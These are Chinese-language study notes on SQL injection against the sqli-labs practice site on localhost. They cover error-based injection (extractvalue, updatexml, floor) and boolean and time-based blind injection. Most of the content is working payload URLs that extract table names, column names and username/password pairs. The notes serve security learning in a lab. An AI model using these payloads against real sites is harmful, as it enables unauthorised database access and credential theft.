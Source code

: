### 报错注入

**报错注入是一种****利用网站的报错信息来获取数据库信息**的注入方式。

**该方法的原理是在错误信息中执行SQL语句，利用数据库的某些机制制造错误条件，使得查询结果能够出现在错误信息中。**

**在MySQL中，执行一个正常的SQL语句，不会返回查询的内容，但是会打印一条报错语句，告诉你有一个SQL语法错误。利用该特性，构造SQL语句，让其返回数据库的相关信息。**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1,2,databse()--+
```

![1686741574661](image/1.3报错注入/1686741574661.png)

![1686741598115](image/1.3报错注入/1686741598115.png)

![1686744596624](image/1.3报错注入/1686744596624.png)

![1686744627371](image/1.3报错注入/1686744627371.png)

![1686744640082](image/1.3报错注入/1686744640082.png)

#### **利用extractValue()报错注入**

**使用extractvalue查询xml里面的内容**

```
select extractvalue(doc,'/book/author/surname')from xml;
```

```
select extractvalue(doc,concat(0x7e,(select database())))from xml;
```

![1686741645198](image/1.3报错注入/1686741645198.png)

![1686741655402](image/1.3报错注入/1686741655402.png)

** 0x7e     代表~             也可使用  '~' 代替**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select database()))),3 --+
//查询库名 
```

![1686741758932](image/1.3报错注入/1686741758932.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
//查询该库内所有的表名
```

![1686741750543](image/1.3报错注入/1686741750543.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3 --+
```

![1686741729712](image/1.3报错注入/1686741729712.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password) from users),1,30))),3 --+
//报错注入一次只能显示32个字符，所以使用substring函数继续显示。
```

![1686741738602](image/1.3报错注入/1686741738602.png)

#### **updatexml函数**

![1686744438757](image/1.3报错注入/1686744438757.png)

![1686743807264](image/1.3报错注入/1686743807264.png)

![1686744903423](image/1.3报错注入/1686744903423.png)

**database()				数据库库名
group_concat()			把查询到的结果合并到一行显示
concat()					合并字符
优先执行括号()里的命令**

```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),3)--+
//查看该库内的表名
```

![1686745406727](image/1.3报错注入/1686745406727.png)

![1686745343388](image/1.3报错注入/1686745343388.png)

```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select substr(group_concat(username,password),1,28) from users)),3)--+
//查询列内的内容     substr与substring效果一致
```

#### floor报错

![1686746162473](image/1.3报错注入/1686746162473.png)

![1686746510907](image/1.3报错注入/1686746510907.png)

```
select floor(rand()*2) from users;
//有多少用户就计算多少次
```

![1686746803620](image/1.3报错注入/1686746803620.png)

```
select concat_ws('-',(select database()),floor(rand()*2)) from users;

```

![1686747331459](image/1.3报错注入/1686747331459.png)

![1686747572247](image/1.3报错注入/1686747572247.png)

```
select count(*),concat_ws('~',(select database()),floor(rand(0)*2)) as ben from users group by ben;
```

![1686747551142](image/1.3报错注入/1686747551142.png)

![1686747994232](image/1.3报错注入/1686747994232.png)

![1686748772714](image/1.3报错注入/1686748772714.png)

![1686752285015](image/1.3报错注入/1686752285015.png)

```
http://localhost/sqli_labs/Less-5/?id=1' union select 1,count(*),concat_ws('-',(select version()),floor(rand(0)*2)) as x from information_schema.tables group by x --+
//
```

![1686752433539](image/1.3报错注入/1686752433539.png)

```
http://localhost/sqli_labs/Less-5/?id=1' union select 1,count(*),concat_ws('-',(select concat('~',username,':',password) from users limit 0,1),floor(rand(0)*2)) as x from information_schema.tables group by x --+
//控制内容输出
```



#### 布尔盲注


![1686756891152](image/1.3报错注入/1686756891152.png)


![1686757325882](image/1.3报错注入/1686757325882.png)

```
http://localhost/sqli_labs/Less-8/?id=1' and ascii(substr((select database()),1,1))>=115--+
//用二分法来判断该数据库第一个字母ASCII码数值的区间，当条件满足时页面显示为真
http://localhost/sqli_labs/Less-8/?id=1' and ascii(substr((select database()),2,1))=101--+
//判断第二个字母
```

![1686758835076](image/1.3报错注入/1686758835076.png)

![1686758872818](image/1.3报错注入/1686758872818.png)

![1686758962369](image/1.3报错注入/1686758962369.png)

![1686758993336](image/1.3报错注入/1686758993336.png)

![1686759019689](image/1.3报错注入/1686759019689.png)


#### 时间盲注

1.没有回显

2.没有报错

3.没有真假值

![1686759465731](image/1.3报错注入/1686759465731.png)


```
http://localhost/sqli_labs/Less-9/?id=1' and sleep(2)--+
```



![1686759642346](image/1.3报错注入/1686759642346.png)

![1686760388119](image/1.3报错注入/1686760388119.png)

```
http://localhost/sqli_labs/Less-9/?id=1' and if(ascii(substr((select database()),1,1))=115,sleep(0),sleep(3))--+
//判断该库第一个字母ASCII码值是否=115，如果结果为真则立刻返回值，反之等待3秒
```

![1686760458238](image/1.3报错注入/1686760458238.png)

![1686760494139](image/1.3报错注入/1686760494139.png)

#### 文件上传
